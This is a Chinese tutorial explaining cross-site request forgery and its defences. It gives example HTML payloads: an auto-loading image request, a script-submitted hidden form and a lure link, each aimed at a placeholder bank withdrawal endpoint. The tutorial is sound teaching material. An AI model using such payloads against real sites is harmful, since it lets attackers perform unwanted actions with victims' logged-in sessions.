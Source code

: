 - CSRF 是攻击者诱导受害者在第三方网站中向被攻击网站发送跨站请求。
- 防范措施：组织第三方域名的访问，使用 CSRF Token 或双重 Cookie。

一般的情况下，点开一个诱导你的链接，攻击者会在你不知情的时候做哪些事情呢

## CSRF 攻击者可以做的事情

#### 1. 自动发起 Get 请求

黑客网页里面可能有一段这样的代码 👇

```html
<img src="http://bank.example/withdraw?amount=10000&for=hacker" />
```

在受害者访问含有这个 img 的页面后，浏览器会自动向`http://bank.example/withdraw?account=xiaoming&amount=10000&for=hacker`发出一次 HTTP 请求。

`bank.example`就会收到包含受害者登录信息的一次跨域请求。

#### 2. 自动发起 POST 请求

黑客网页中有一个表单，自动提交的表单 👇

```html
<form action="http://bank.example/withdraw" method="POST">
	<input type="hidden" name="account" value="xiaoming" />
	<input type="hidden" name="amount" value="10000" />
	<input type="hidden" name="for" value="hacker" />
</form>
<script>
	document.forms[0].submit();
</script>
```

访问该页面后，表单会自动提交，相当于模拟用户完成了一次 POST 操作。

同样也会携带相应的用户 cookie 信息，让服务器误以为是一个正常的用户在操作，让各种恶意的操作变为可能。

#### 3. 引诱用户点击链接

这种需要诱导用户去点击链接才会触发，这类的情况比如在论坛中发布照片，照片中嵌入了恶意链接，或者是以广告的形式去诱导，比如：

```html
<a
	href="http://test.com/csrf/withdraw.php?amount=1000&for=hacker"
	taget="_blank"
>
	重磅消息！！！点击进入修仙世界
	<a
/></a>
```

点击后，自动发送 get 请求，接下来和`自动发 GET 请求`部分同理。

以上三种情况，就是 CSRF 攻击原理，跟 XSS 对比的话，CSRF 攻击并不需要将恶意代码注入 HTML 中，而是跳转新的页面，利用**「服务器的验证漏洞」**和**「用户之前的登录状态」**来模拟用户进行操作
